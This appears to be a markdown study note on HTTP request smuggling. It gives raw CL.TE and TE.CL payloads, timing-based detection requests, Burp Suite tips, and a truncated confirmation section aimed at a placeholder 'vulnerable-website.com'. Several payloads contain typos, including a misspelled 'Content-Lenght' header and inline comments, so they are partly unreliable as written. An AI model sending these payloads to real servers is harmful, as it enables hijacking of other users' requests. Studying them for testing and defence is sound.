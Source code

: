# REQUEST SMUGGLING

### **CL . TE**

**The front-end check length and the back-end check the encoding**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Lenght: [X]
Transfer-Encoding: chunked 

0 #End of the chuked request

GPOST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13

pwny=rock
```

In the front-end this is a single request acourding the lenght but in the back-end this is two requests acording the encoding 0 terminating the request in the middle

```
If the request work the response request of the server will be:
"Unrecognized method GPOST"
```

## **TE . CL**

**The front-end check the encoding and the back-end check the length** 

**Is essentialy inverted CL . TE**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 3 #One space + two characters (3F)
Transfer-Encoding: chunked

5c #The number of bytes of the second request in hex number (92=>5c)
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 #One space +tree characters (x=1) + the end of request (0)

x=1
0 #End of the chuked request
```

You need to count the quantity of bytes in the second request and convert into hex number

In the burp you can select the second request and click on "Convert to chunked" and cautomaticaly will put the hexadecimal length and the 0 end request.

And add the header methods clicking in the first request and in "change the request method"

# **Identify With Time Delay**

## **CL . TE**

```bash
CL . TE
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- The **front-end** will pass by one request on legth: **1 space + 2 chars + 1 number = 4 bytes**
- The **back-end** will not terminate the chunk and will whait for the next it cause a time delay

## **TE . CL**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- The **front-end** will recieve part of the chuked request
- The **back-end** will expected **6 bytes** on the resquest (more than the sended) and will **whait the rest of the bytes** and it cause a time delay

**ALERT: The timing-based test fot TE. CL vulnerabilities disturb** the application for other users **use this test only if the CL. TE not work**

## **Confirming HTTP Smuggling**

An attack request want to interfere in the next request

But you can confirm this wihout circumvent the legal laws checking the responde of your request

**A Normal Request:**

```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
